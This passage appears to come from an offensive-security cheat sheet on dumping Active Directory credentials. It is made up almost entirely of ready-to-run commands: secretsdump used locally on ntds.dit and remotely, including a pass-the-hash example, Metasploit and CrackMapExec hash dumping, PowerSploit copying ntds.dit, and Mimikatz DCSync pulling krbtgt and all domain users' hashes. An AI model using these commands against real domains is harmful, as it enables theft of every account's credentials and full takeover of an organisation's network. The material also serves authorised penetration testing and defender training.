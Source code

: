 then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

- `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
- `-user-status`: Display whether or not the user is disabled.

### Alternatives - modules

Metasploit modules

```c
windows/gather/credentials/domain_hashdump
```

PowerSploit module

```powershell
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

CrackMapExec module

```powershell
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### Using Mimikatz DCSync

Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

```powershell
# DCSync only one user
mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt

# DCSync all users of the domain
mimikatz# lsadump::dcsync /domain:htb.local /all /csv
```

:warning: Read-Only Domain Controllers are not allowed to pull password data for users by default.

### Using Mimikatz sekurlsa

Dumps credential data in an Active Directory domain when run on a Domain Controller.
:warning: Requires administrator access with debug or Local SYSTEM rights
